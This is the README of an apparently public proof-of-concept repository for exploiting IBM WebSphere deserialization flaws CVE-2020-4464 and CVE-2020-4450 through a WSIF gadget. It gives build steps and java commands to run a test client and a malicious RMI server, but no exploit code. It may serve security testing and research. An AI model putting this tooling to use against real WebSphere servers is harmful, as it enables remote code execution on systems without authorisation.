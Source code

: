 WSIF Gadget for WebSphere (CVE-2020-4464 / CVE-2020-4450)
=========================================================

This is based on the excellent blog posts of ZDI (original report by [@\_tint0](https://twitter.com/_tint0)):

* https://www.thezdi.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere
* https://www.zerodayinitiative.com/blog/2020/9/29/exploiting-other-remote-protocols-in-ibm-websphere

... and the work of some fine Chinese hackers (I couldn't determine the true source for the code, feel free to open an Issue if you think you deserve credit):

* https://paper.seebug.org/1315/
* https://vlambda.com/wz_7iyDatDUdvs.html
* https://cert.360.cn/report/detail?id=3d016bdef66b8e29936f8cb364f265c8


My additions (not much, really):
* Dependencies + build script
* Publicly accessible RMI service
* Little code cleanup

[FoxGlove's code](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/) is pulled in as a submodule, you can use the WebSphere request file to trigger CVE-2020-4464.

You should copy the `plugins` and `runtimes` directories from WebSphere to the `lib` directory, then run `ant` to compile!

To run (Java 11):

```
java -cp .:runtimes/com.ibm.ws.orb_9.0.jar:runtimes/com.ibm.ws.admin.client_9.0.jar:plugins/com.ibm.ws.managedobject.jar:plugins/com.ibm.ws.runtime.jar:plugins/com.ibm.ws.batch.runtime.jar:plugins/javax.j2ee.ejb.jar:runtimes/com.ibm.jaxws.thinclient_9.0.jar --add-modules jdk.naming.rmi --add-exports='jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED' Test
```

```
java -cp .:plugins/com.ibm.ws.runtime.jar:runtimes/com.ibm.ws.admin.client_9.0.jar RMIServer
```
